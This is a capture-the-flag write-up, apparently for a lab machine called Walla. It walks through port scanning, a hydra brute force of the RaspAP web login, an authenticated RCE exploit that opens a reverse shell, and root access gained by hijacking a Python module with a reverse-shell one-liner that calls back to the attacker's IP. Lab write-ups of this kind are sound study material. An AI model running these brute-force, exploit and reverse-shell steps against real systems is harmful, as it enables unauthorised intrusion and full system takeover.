





# Walla (rough notes)

Initial service enumeration with `nmap`

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p- -T4 walla
...

PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
422/tcp   open  ariel3
8091/tcp  open  jamlink
42042/tcp open  unknown
```

More thorough service fingerprinting with `nmap`:

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -T4 -p 22,23,25,53,422,8091,42042 -A walla
...

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Issuer: commonName=walla
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T18:26:36
| Not valid after:  2030-09-15T18:26:36
| MD5:   097c:bda1:76ab:9b73:c8ef:68ab:84e9:a055
|_SHA-1: 6c4b:fee3:0bd6:d910:2ef9:f81a:3a41:72d8:31bd:baac
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
|_http-favicon: Unknown favicon MD5: B5F9F8F2263315029AD7A81420E6CC2D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-server-header: lighttpd/1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Notes:
- smtp server (port 25) certificate CN is "walla"
- http server (port 8091) is "lighttpd 1.4.53"

We'll start with the http server...

It asks us for auth as soon as we open it in the browser at the root path... I try default creds (e.g. `admin:admin` but that doesn't work).



It also doesn't have a `robots.txt`. Will try enumerating paths with `gobuster`.

While that runs I'll also search `lighthttpd` on exploit-db:

```
┌──(kali㉿kali)-[~]
└─$ searchsploit lighttpd 1.4
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
lighttpd - Denial of Service (PoC)                                                | linux/dos/18295.txt
Lighttpd 1.4.15 - Multiple Code Execution / Denial of Service / Information Discl | windows/remote/30322.rb
Lighttpd 1.4.16 - FastCGI Header Overflow Remote Command Execution                | multiple/remote/4391.c
Lighttpd 1.4.17 - FastCGI Header Overflow Arbitrary Code Execution                | linux/remote/4437.c
lighttpd 1.4.31 - Denial of Service (PoC)                                         | linux/dos/22902.sh
Lighttpd 1.4.x - mod_userdir Information Disclosure                               | linux/remote/31396.txt
lighttpd 1.4/1.5 - Slow Request Handling Remote Denial of Service                 | linux/dos/33591.sh
Lighttpd < 1.4.23 (BSD/Solaris) - Source Code Disclosure                          | multiple/remote/8786.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Unfortunately, none of the arbitrary command execution vulnerabilities apply to the version we have running here...

The `gobuster` results came back:

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://walla:8091 -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://walla:8091
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/templates            (Status: 301) [Size: 0] [--> http://walla:8091/templates/]
/ajax                 (Status: 301) [Size: 0] [--> http://walla:8091/ajax/]
/includes             (Status: 301) [Size: 0] [--> http://walla:8091/includes/]
/app                  (Status: 301) [Size: 0] [--> http://walla:8091/app/]
/config               (Status: 301) [Size: 0] [--> http://walla:8091/config/]
/dist                 (Status: 301) [Size: 0] [--> http://walla:8091/dist/]
/LICENSE              (Status: 200) [Size: 35146]
/locale               (Status: 301) [Size: 0] [--> http://walla:8091/locale/]
/installers           (Status: 301) [Size: 0] [--> http://walla:8091/installers/]
/%C0                  (Status: 400) [Size: 345]
/_layouts             (Status: 301) [Size: 0] [--> http://walla:8091/_layouts/]
/%7Echeckout%7E       (Status: 403) [Size: 341]
/%C1                  (Status: 400) [Size: 345]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

I checked all those paths but no luck... I kick off another run of `gobuster` with a different wordlist and options. And at the same time I turn my attention to the SMTP server.

I lookup `postfix smtp` in exploit-db and we get some promising hits:

```
┌──(kali㉿kali)-[~]
└─$ searchsploit postfix smtp
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' Remote Command Injection      | linux/remote/34896.py
------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I try the exploit but it does not get me a reverse shell... I tried `python2`, `python3`, and `perl`. For now I conclude the version of the postfix smtp server is not vulnerable to this CVE.

I find that the listeners on `422` and `42042` are ssh servers:

```                                                                                                                                                                                         
┌──(kali㉿kali)-[~]
└─$ nc walla 422             
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
^C
                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ nc walla 42042
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
^C
```

I also try resolving something through the (presumed) dns server on the host, maybe it could give me some MX records or something useful, but no luck:

```
┌──(kali㉿kali)-[~]
└─$ dig walla @walla
;; communications error to 192.168.234.97#53: timed out
;; communications error to 192.168.234.97#53: timed out
;; communications error to 192.168.234.97#53: timed out

; <<>> DiG 9.19.21-1-Debian <<>> walla @walla
;; global options: +cmd
;; no servers could be reached
```

I go back to focus on the webserver...

I make a couple odd requests and notice the `WWW-Authenticate` header:

```
┌──(kali㉿kali)-[~]
└─$ http http://walla:8091/../..
HTTP/1.1 401 Unauthorized
Cache-Control: no-store, no-cache, must-revalidate
Content-Length: 15
Content-type: text/html; charset=UTF-8
Date: Thu, 07 Mar 2024 04:56:51 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: lighttpd/1.4.53
Set-Cookie: PHPSESSID=9o34rkhqe2v83p2ehbhj7c73i1; path=/
WWW-Authenticate: Basic realm="RaspAP"

Not authorized
```

I missed that on the `nmap` service fingerprint scan! Will search for exploits for `RaspAP`:

```
┌──(kali㉿kali)-[~]
└─$ searchsploit raspap
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated)  | php/webapps/50224.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

This is **really** promising... but we still need to be authenticated against the server... We'll try harder.

I try brute forcing the login form with `hydra` and succeed:

```
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8091 walla http-get   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-06 21:20:56
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://walla:8091/
[8091][http-get] host: walla   login: admin   password: secret
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-06 21:21:11
```

I test my newly-found creds in the browser and get in.



The "about" page in this "RaspAP" server tells us that the version is 2.5 -- which is less than the version of our presumed exploit (so it should probably work).



Alright, time to go back to that RCE exploit...

I had to modify the target path for the exploit from the default `/wpa_path` to `/index.php?page=wpa_conf`, but it worked! I figured out the path by finding the path of the "WiFi Client" page in the web server...

```                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ python3 50224.py 192.168.234.97 8091 admin secret 192.168.45.239 80
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.239] from (UNKNOWN) [192.168.234.97] 34462
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I find our first flag under user the directory `/home/walter`:

```
$ cd /home 
$ ls
janis
paige
terry
walter
$ cd walter
$ ls
local.txt
wifi_reset.py
$ cat local.txt
c341e5da99444f6f649a6ea2bb6a8c34
```

We also learn about some users: (janis, paige, terry, and walter). We'll keep those names in our back pocket.

Also worth noting that that python file (`wifi_reset.py`) is owned by `root`:

```
$ cat wifi_reset.py
#!/usr/bin/python

import sys

try:
	import wificontroller
except Exception:
	print "[!] ERROR: Unable to load wificontroller module."
	sys.exit()

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
```

Looks like we have lots of things we can run as `root` without a password:

```
$ sudo -l
Matching Defaults entries for www-data on walla:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
```

I'm interested in `ifup` and in that python script.

I run LinPEAS again... and I get some goodies:





```
$ ls -la | grep rasp
-rw-r--r--  1 www-data www-data   612 Aug 14  2023 raspapd.service
$ cat raspapd.service
### BEGIN INIT INFO
# Provides:          raspapd
# Required-Start:    $remote_fs $syslog
# Required-Stop:     $remote_fs $syslog
# Default-Start:     S 2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Start RaspAP daemon at boot time
# Description:       Enable service provided by daemon
### END INIT INFO
# Author: BillZ <billzimmerman@gmail.com>

[Unit]
Description=RaspAP Service Daemon
DefaultDependencies=no
After=multi-user.target

[Service]
Type=oneshot
ExecStart=/bin/bash /etc/raspap/hostapd/servicestart.sh --interface uap0 --seconds 3
RemainAfterExit=no

[Install]
WantedBy=multi-user.target
```

I spend some time tring to modify the `ExecStart` section of the system unit config file. I try restarting the AP on the web ui and getting that to trigger that reverse shell. I have no luck...

I go back to look at that python script, which we can execute as root.

I notice that it is importing `wificontroller` without an explicit location, so maybe I can write a reverse shell into `wificontroller.py` and then run that script as root to execute it.


I write the shell with:

```
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.239",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> wificontroller.py
```

I set up my listener in kali with `nc -lvnp 4242`

Then I run the script with:

```
$ sudo /usr/bin/python /home/walter/wifi_reset.py
```

I notice it hangs! That's good news :D 

...and we have a shell as root in the local listener, where we quickly find the flag.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.239] from (UNKNOWN) [192.168.234.97] 57162
root@walla:/home/walter# whoami
whoami
root
root@walla:/home/walter# cd /root
cd /root
root@walla:~# cat proof.txt
cat proof.txt
0abef687826b3903731f68f01d157bd1
```

We are root!

> After finishing the box I noticed I could have just replaced `wifi_reset.py` with a python script with a reverse shell itself and that would have worked!